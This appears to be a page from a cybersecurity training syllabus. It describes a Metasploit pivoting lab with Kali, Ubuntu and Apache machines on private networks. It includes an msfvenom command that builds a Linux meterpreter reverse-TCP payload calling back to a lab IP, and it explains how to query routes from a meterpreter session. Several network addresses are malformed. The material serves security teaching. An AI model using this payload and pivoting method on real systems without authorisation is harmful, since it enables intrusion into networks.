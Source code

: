 Linux has a NAT

![linux-nat](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/linux-nat.png?raw=true)

Ubuntu has:

> Adapter 1: Bridged adapter

> Adapter 2: Network Nat

The Kali machine with Metasploit Framework will be from where we will perform the intrusion. It has two network interfaces, one in NAT mode (eth1 simply to have access to the Internet) and eth0 with the assigned IP 10.0.0.1 which is part of the network 10.0.0.0.0/24. This machine has no direct visibility to the second network 11.0.0.0.0/24.

![kali-metasploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/kali-metasploit.png?raw=true)

The Ubuntu machine has two interfaces that have visibility with the network 10.0.0.0.0/24 and 11.0.0.0.0/24 will be the pivoting and the second Linux machine with a single interface with the assigned IP 11.0.0.0.10 which will have visibility to the network 11.0.0.0.0.0/24, this will be a possible vulnerable machine as it will have an Apache web service that we will have to try to reach from the Kali machine.

![ubuntu](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/ubuntu.png?raw=true)

## Establish a Meterpreter session on the Ubuntu machine (pivoting)

The operation of the types of pivoting within the possibilities offered by Metasploit Framework we must start by obtaining a Meterpreter session on one of the computers on the network, in this case, will be the Ubuntu which has visibility with the two networks within this laboratory, this will be the machine that will make us pivoting to the networks that have configured. For this scenario, we can generate with msfvenom a payload in which its shellcode will be a Linux meterpreter and execute it in the remote machine to obtain this session.

```bash
msfvenom -p Linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o payload
```

- *b '\x00\x0a\x0d'*: (--bad-chars) Parameter in which you can specify a list of characters to avoid, so that it does not cause a possible error at the moment of executing the payload. In this case, these *[opcodes](https://en.wikipedia.org/wiki/Opcode)* would be valid.

![opcodes](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/opcodes.png?raw=true)

## Route

Once we have a session established with the Ubuntu machine, we start the interpreter and one way to check the associated networks is to list the network interfaces with *ipconfig* to check if there are any IP addresses assigned that are part of a different network segment. We could also run a *shell* inside meterpreter and query the routing table with the *route print* command. As we can see the network 10.0.0.0.0/24 is shown on interface 2 and 11.0.0.0.0/24 on interface 3.
